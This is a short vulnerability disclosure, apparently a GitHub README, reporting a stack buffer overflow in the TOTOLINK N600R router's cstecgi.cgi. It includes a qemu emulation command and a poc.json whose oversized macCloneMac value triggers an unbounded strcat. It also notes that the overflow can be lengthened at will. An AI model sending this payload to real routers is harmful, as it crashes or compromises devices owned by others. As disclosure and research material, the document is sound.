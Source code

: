 # TOTOLINK-N600R-setWanConfig-StackOverflow

﻿During my internship at Qi An Xin Tiangong Lab, I discovered a StackOverflow vulnerability in the TOTOLINK-N600R router.

By analyzing the cstecgi.cgi file in the cgi-bin directory, I found that the function at address 0x420CD0 contains a stack overflow vulnerability.

The stack overflow can be triggered by the macCloneMac key value, which leads to a strcat overflow.

![image-20241219144819116](https://gitee.com/xyqer/pic/raw/master/202412191448022.png)

## How can we simulate a router

﻿Use the following command to simulate with qemu.

```bash
sudo chroot . ./qemu-mips-static -E CONTENT_LENGTH=300 -E QUERY_STRING="action=no" -L /lib ./web_cste/cgi-bin/cstecgi_patch.cgi < ./poc.json
```

﻿The content of the **poc.json** file is as follows:

```json
{"data":"1234","topicurl":"setWanConfig","macCloneMac":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","wanMode":"2"}
```

## Attack result

![image-20241216153650090](https://gitee.com/xyqer/pic/raw/master/202412191450704.png)

![image-20241216153701799](https://gitee.com/xyqer/pic/raw/master/202412191450294.png)

﻿You can see that the stack length is only 0x1b8, but we overflowed to 0x1c0. If needed, we can overflow more. This overflow does not have a length limit. When using a longer overflow, you only need to modify the macCloneMac key value and the CONTENT_LENGTH size.
